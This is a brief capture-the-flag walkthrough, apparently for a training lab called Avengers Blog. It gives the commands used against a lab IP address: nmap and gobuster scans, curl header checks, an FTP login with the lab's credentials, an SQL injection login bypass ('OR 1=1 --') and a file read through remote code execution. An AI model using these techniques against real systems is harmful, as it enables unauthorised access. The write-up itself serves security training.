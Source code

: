 # Avengers Blog

```bash
nmap 10.10.96.21
```

![](<../../.gitbook/assets/Screenshot from 2020-09-15 10-49-10.png>)

## :cookie: Cookies

### **Get the flag1 cookie value**

```
curl http://10.10.96.21/js/script.js
```

![](<../../.gitbook/assets/Screenshot from 2020-09-15 10-56-59.png>)

## :performing\_arts: HTTP Headers

### **Look at the HTTP response headers and obtain flag 2**

```
curl -I http://10.10.96.21
```

![](<../../.gitbook/assets/Screenshot from 2020-09-15 11-11-29.png>)

## :file\_cabinet: Enumeration and FTP

### **Look around the FTP share and read flag 3!**

```
lftp 10.10.96.21 -u groot,iamroot
lftp groot@10.10.96.21:~> cat files/flag3.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-15 11-16-39.png>)

## :punch: GoBuster

### **What is the directory that has an Avengers login?**

```
gobuster dir -u http://10.10.96.21 \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-15 11-20-30.png>)

## :syringe: SQL Injection

### **Log into the Avengers site. View the page source, how many lines of code are there?**

```
Username: ' OR 1=1 --
Password: ' OR 1=1 --
```

![](<../../.gitbook/assets/Screenshot from 2020-09-15 11-34-14.png>)

## :scream: Remote Code Execution and Linux

### **Read the contents of flag5.txt**

```bash
less ../flag5.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-15 11-38-21.png>)
